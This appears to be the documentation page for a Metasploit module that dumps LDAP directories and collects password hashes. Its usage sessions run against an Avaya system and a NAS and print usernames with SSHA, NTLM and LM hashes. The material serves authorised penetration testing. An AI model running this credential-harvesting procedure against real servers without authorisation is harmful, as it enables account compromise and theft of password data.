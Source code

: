 ## Vulnerable Application

### Description

This module uses an LDAP connection to dump data from LDAP server
using an annonymous or authenticated bind.
Searching for specific attributes it collects user credentials.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the LDAP server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USER_ATTR

LDAP attribute to take the user name from. Defaults to DN, however you may
wish to change it UID, name or similar.

### PASS_ATTR

LDAP attribute to take the password hash from. Defaults to userPassword,
some LDAP server may use different attribute, e.g. unixUserPassword,
sambantpassword, sambalmpassword.

## Scenarios

### Avaya Communication Manager via anonymous bind

```
msf5 > use auxiliary/gather/ldap_hashdump
msf5 auxiliary(gather/ldap_hashdump) > options

Module options (auxiliary/gather/ldap_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BASE_DN                     no        LDAP base DN if you already have it
   PASS_ATTR  userPassword     yes       LDAP attribute, that contains password hashes
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      389              yes       The target port
   SSL        false            no        Enable SSL on the LDAP connection
   USER_ATTR  dn               no        LDAP attribute, that contains username


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121633_default_[redacted_ip_address]_LDAPInformation_716210.txt
[*] Searching for attribute: userPassword
[*] Taking dn attribute as username
[+] Credentials found: uid=cust,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: uid=admin,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121718_default_[redacted_ip_address]_LDAPInformation_712562.txt
[*] Searching for attribute: userPassword
[*] Taking uid attribute as username
[+] Credentials found: cust:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: admin:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) >
```

### NASDeluxe - NAS with Samba LM/NTLM hashes

```
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > set PASS_ATTR sambantpassword
PASS_ATTR => sambantpassword
msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=server,dc=nas
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726201006_default_[redacted_ip_address]_LDAPInformation_026574.txt
[*] Searching for attribute: sambantpassword
[*] Taking uid attribute as username
[+] Credentials found: admin:209C6174DA490CAEB422F3FA5A7AE634
[+] Credentials found: joe:58E8C758A4E67F34EF9C40944EB5535B
[*] Auxiliary module execution completed

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=server,dc=nas
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726201731_default_[redacted_ip_address]_LDAPInformation_427417.txt
[*] Searching for attribute: sambalmpassword
[*] Taking uid attribute as username
[+] Credentials found: admin:F0D412BD764FFE81AAD3B435B51404EE
[+] Credentials found: joe:3417BE166A79DDE2AAD3B435B51404EE
[*] Auxiliary module execution completed
```
